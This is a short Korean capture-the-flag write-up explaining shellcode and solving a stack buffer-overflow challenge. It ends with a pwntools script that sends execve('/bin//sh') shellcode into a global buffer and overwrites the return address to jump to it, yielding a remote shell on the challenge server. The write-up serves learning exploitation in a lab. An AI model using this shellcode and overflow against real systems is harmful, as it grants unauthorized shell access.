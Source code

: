 ## 사전지식    
쉘코드. 
음..왠만한 사람들은 다 알거라 생각하지만    
나같은 뉸뉸이들은 그런거 모르니 간단하게 설명하자면   
시스템의 특정 명령을 실행하는 작은 사이즈의 프로그램(코드)다.   
보통 메모리에 쉘코드를 넣고 ret에 쉘코드가 저장된 메모리의 주소로 덮어 씌워 쉘을 실행시킨다.   
주로 관리자 권한의 쉘을 얻는 용도.   
구글링하면 다-나온다.   

## 풀이   
일단 아이다로 까보면 read함수를 통해 표준입력(0)으로 0x32만큼 입력받고   
다시 gets로 0x14크기의 s에 입력받도록 하는 코드다.   
이때 read함수를 보면 name이라는 전역변수에 저장하는 것을 알 수 있는데,    
다른 걸 살펴봐도 마땅히 flag을 얻을 만한 방법이 안보이니까...    
첫 번째 입력 때 name에 쉘코드를 입력하고,   
두 번째 입력 받을 때 ret까지 BOF를 일으키고 name의 주소를 넣어서 name안에 있는 쉘코드를 실행하게 하면 될 것이다.   
근데 뉸뉸이들은 '에 ret까지 어떻게 BOF를 일으켜요?'할 것이다.   
ida를 자세히 살펴보면 s의 크기는 0x14인걸 알수 있으니 0x14에 sfp크기, 4byte크기만큼   
더미값을 넣어서 BOF를 일으키면 된다.   


코드보자!    
```
from pwn import *
p=remote("ctf.j0n9hyun.xyz", 3003)
p.recvuntil("Name : ")
shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"
p.sendline(shellcode)
p.recvuntil("input : ")
payload = "A"*24
payload += p32(0x804A060)
p.sendline(payload)
p.interactive()
```  


